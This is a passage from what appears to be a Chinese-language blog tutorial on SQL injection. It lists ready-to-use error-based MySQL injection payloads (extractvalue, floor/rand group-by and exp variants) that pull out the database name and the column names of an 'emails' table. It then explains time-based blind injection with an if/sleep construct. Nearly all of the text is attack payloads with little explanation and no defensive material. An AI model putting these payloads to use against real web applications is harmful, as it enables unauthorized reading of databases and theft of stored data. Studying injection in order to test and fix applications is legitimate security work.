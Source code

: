 {% endcodeblock %}

## extractvalue方式
{% codeblock lang:PHP %}
1 and(extractvalue(1, concat(0x7e,(select database()))))
{% endcodeblock %}

## floor方式(查询数据库)
{% codeblock lang:PHP %}
1 and (select 1 from (select count(*),concat(database(),floor(rand(0)*2))x from  information_schema.tables group by x)a)%23

1 and(select 1 from (select count(*),concat((select (select (select concat(0x7e,database(),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)%23

{% endcodeblock %}
查询表(以emails举例,emails十六进制编码为656d61696c73)
{% codeblock lang:PHP %}
​1 and(select 1 from (select count(*),concat((select (select (SELECT distinct concat(0x7e,column_name,0x7e) FROM information_schema.columns where table_name=0x656d61696c73 LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)%23
{% endcodeblock %}

## exp
{% codeblock lang:PHP %}
1 and exp(~(select * from (select database())x))%23
{% endcodeblock %}

# 时间注入

构造逻辑语句，通过条件语句进行判断，为真则立即执行，否则延时执行

核心语法：
{% codeblock lang:sql %}
if(left(user(),1)='a',0,sleep(3));
{% endcodeblock %}
语句构造方式与布尔盲注基本类似，只是在外面加了一层if判断，判断为真返回第二个值，不成功返回第三个值sleep(3)

![upload successful](./images/pasted-559.png)
